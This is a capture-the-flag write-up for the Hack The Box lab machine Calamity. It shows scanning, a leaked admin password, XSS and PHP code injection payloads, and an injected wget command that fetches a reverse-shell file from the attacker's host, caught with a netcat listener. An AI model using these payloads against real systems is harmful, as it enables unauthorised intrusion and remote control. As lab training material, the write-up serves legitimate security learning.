

# HTB - Calamity  10.10.10.27


## NMap

```# nmap -sC -sV -A 10.10.10.27 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 23:54 CEST
Nmap scan report for 10.10.10.27
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software

```


## http://10.10.10.27/




## http://10.10.10.27/admin.php


Credentials found in  Response : Burp or Page Source
```
<!-- password is:skoupidotenekes-->
```
==> admin:skoupidotenekes


Once loged, a cokkie is set.

Cookie: adminpowa=noonecares
Can change the cookie value, noone care..


http://10.10.10.27/admin.php?html=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
Command is subject to XSS

Try to wfuzz to get other command..

?html => Add html in page.

```
# wfuzz -z file,./burp-parameter-names.txt  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000067:  C=200     10 L	      25 W	    451 Ch	  "pass"
000068:  C=200     10 L	      25 W	    451 Ch	  "dir"
000069:  C=200     10 L	      25 W	    451 Ch	  "show"
000070:  C=200     10 L	      25 W	    451 Ch	  "h"
000071:  C=200     10 L	      25 W	    451 Ch	  "value"

# wfuzz -z file,./burp-parameter-names.txt --hh=451  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================


Total time: 8.836157
Processed Requests: 2588
Filtered Requests: 2588
Requests/sec.: 292.8874

```


## Found webpage http://10.10.10.27/uploads/


### php injection : <?php phpinfo(); ?>

Some injections
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("pwd")%3B%3F%3E
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("ls")%3B%3F%3E

Serve php-reverse-shell.php
Update IP & port in php.

http://10.10.10.27/admin.php?html=%3C%3Fphp+system(%22wget%20http://10.10.14.36/shell.php%20-O%20uploads/shell.php%22)%3B%3F%3E

http://10.10.10.27/uploads/shell.php


```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.27: inverse host lookup failed: Unknown host
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.27] 50122
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
 18:42:32 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## System

```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

www-data@calamity:/home/xalvas$ uname -a
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
www-data@calamity:/home/xalvas$ 

```


## Wav files

Download .wav files
- recov.wav
- rick.wav


sudo apt-get install audacity
load rick
import recov
invert rick

Play => 18547936..*

## ssh xalvas@10.10.10.27 : 18547936..*


lxc is installed...
We can use docker exploit

- https://www.hackingarticles.in/hack-the-box-challenge-calamity-walkthrough/

